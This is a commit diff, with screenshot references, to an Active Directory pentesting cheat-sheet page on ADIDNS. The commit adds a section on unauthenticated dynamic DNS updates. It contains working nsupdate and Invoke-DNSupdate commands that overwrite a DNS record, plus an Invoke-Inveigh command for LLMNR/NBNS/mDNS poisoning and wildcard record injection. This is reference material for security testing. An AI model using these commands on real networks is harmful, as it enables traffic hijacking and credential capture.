

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/ad-integrated-dns.md, in a window 1280 px wide and 1400 px high, scrolled down 411 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1492 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add DynDNS spoofing

````diff
--- a/docs/active-directory/ad-integrated-dns.md
+++ b/docs/active-directory/ad-integrated-dns.md
@@ -1,6 +1,8 @@
 # Active Directory - Integrated DNS - ADIDNS
 
 ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic. Active Directory will need some time (~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol.
+
+## LDAP-Based (Require authentication)
 
 * Enumerate all records
 
@@ -34,6 +36,32 @@
 Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
 ```
 
+## Dynamic Updates (Doesn't require authentication)
+
+Dynamic DNS (RFC 2136) allows using the DNS protocol to update DNS records:
+
+1. If the zone is set to Secure Only, you need a valid Kerberos ticket.
+
+2. If the zone is set to Nonsecure and Secure, anyone on the network can send updates.
+
+Update a record:
+
+```ps1
+# Linux
+cat << EOF > dnsupdate.txt
+server dc.domain.corp
+zone domain.corp
+update delete test.domain.corp A
+update add test.domain.corp 3600 A 10.10.10.123
+send
+EOF
+
+nsupdate dnsupdate.txt
+
+# Windows
+Invoke-DNSupdate -DNSType A -DNSName test -DNSData 192.168.125.100 -Verbose
+```
+
 ## DNS Reconnaissance
 
 Perform **ADIDNS** searches
````
